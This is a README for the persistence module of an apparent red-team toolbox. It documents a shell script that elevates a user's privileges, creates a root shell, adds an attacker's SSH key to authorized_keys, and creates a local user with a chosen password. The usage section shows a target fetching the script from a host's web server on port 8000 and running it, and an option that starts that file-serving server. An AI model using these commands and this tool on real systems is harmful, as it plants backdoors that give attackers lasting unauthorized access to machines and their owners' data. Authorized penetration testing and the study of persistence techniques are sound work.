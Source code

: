 # Persistence Phase

Definition...  

Available parts:
- Elevate privileges
- Create a root shell
- Modify ssh keys
- Create local user

## Usage

```sh
# From github
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/persistence.sh
sh persistence.sh -h
```
```sh
# Local network
# Host:
sh persistence.sh -w
# Target:
curl -LJO <Host>:8000/persistence.sh
sh persistence.sh -h
```

### Parameters

```sh
sh persistence.sh -h

Usage: persistence.sh [options]

Options:
-h                Show this help message
-e <username>     Elevate privileges of the given user
                  Root needed!
-r                Create a root shell
                  Root needed!
-s <ssh pub key>  Trying to add ssh public key to authorized_keys of current user
                  Put the contents of your public key in quotes like: -s "ssh-rsa AAAAB3NcaDkL......"
-u <username>     Add a local account/user
                  Root needed!
-p <password>     Set this password to new user
                  Only useful in combination with -u parameter
                  Root needed!
-w                Serves an local web server for transferring files

Output:
-q                Quiet. No banner and no advisory displayed
```

## Results

The results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 